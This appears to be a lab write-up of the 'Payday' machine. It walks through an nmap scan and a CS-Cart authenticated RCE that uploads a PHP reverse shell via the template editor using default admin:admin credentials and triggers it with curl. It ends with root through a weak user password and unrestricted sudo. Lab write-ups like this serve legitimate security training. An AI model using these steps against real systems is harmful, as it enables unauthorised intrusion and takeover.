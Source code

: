 # Payday

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 -Pn 192.168.157.39 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-14 13:42 +08
Nmap scan report for 192.168.157.39
Host is up (0.18s latency).
Not shown: 65527 closed tcp ports (conn-refused)
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
110/tcp open  pop3
139/tcp open  netbios-ssn
143/tcp open  imap
445/tcp open  microsoft-ds
993/tcp open  imaps
995/tcp open  pop3
```

### CS-Cart -> RCE

Port 80 was running InternetShop CS-Cart, which looks really vulnerable:

<figure><img src="../../../.gitbook/assets/image (3733).png" alt=""><figcaption></figcaption></figure>

There are loads of exploits for this:

```
$ searchsploit cs-cart
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
CS-Cart - Multiple SQL Injections                          | php/webapps/27030.txt
CS-Cart 1.3.2 - 'index.php' Cross-Site Scripting           | php/webapps/31443.txt
CS-Cart 1.3.3 - 'classes_dir' LFI                          | php/webapps/48890.txt
CS-Cart 1.3.3 - 'classes_dir' Remote File Inclusion        | php/webapps/1872.txt
CS-Cart 1.3.3 - 'install.php' Cross-Site Scripting         | multiple/webapps/14962.txt
CS-Cart 1.3.3 - authenticated RCE                          | php/webapps/48891.txt
CS-Cart 1.3.5 - Authentication Bypass                      | php/webapps/6352.txt
CS-Cart 2.0.0 Beta 3 - 'Product_ID' SQL Injection          | php/webapps/8184.txt
CS-Cart 2.0.5 - 'reward_points.post.php' SQL Injection     | php/webapps/33146.txt
CS-Cart 2.2.1 - 'products.php' SQL Injection               | php/webapps/36093.txt
CS-Cart 4.2.4 - Cross-Site Request Forgery                 | php/webapps/36358.html
CS-Cart 4.3.10 - XML External Entity Injection             | php/webapps/40770.txt
----------------------------------------------------------- ---------------------------------
```

We can take a look at the authenticated RCE, since we can login using `admin:admin`.&#x20;

```
$ cat 48891.txt
get PHP shells from
http://pentestmonkey.net/tools/web-shells/php-reverse-shell
edit IP && PORT
Upload to file manager
change the extension from .php to .phtml
visit http://[victim]/skins/shell.phtml -> Profit. ...! 
```

We can then access `admin.php` with the same credentials:

<figure><img src="../../../.gitbook/assets/image (3466).png" alt=""><figcaption></figcaption></figure>

Head to 'Template Editor' and upload the file that we want.&#x20;

<figure><img src="../../../.gitbook/assets/image (3463).png" alt=""><figcaption></figcaption></figure>

Then, just run this:

```bash
$ curl http://192.168.157.39/skins/rev.phtml
```

And we would get a reverse shell:

<figure><img src="../../../.gitbook/assets/image (3141).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Weak Creds -> Root

We can `su` to the user `patrick` using the password `patrick`. This user can run `sudo` for everything:

```
patrick@payday:/home$ sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for patrick:
User patrick may run the following commands on this host:
    (ALL) ALL
```

<figure><img src="../../../.gitbook/assets/image (2854).png" alt=""><figcaption></figcaption></figure>
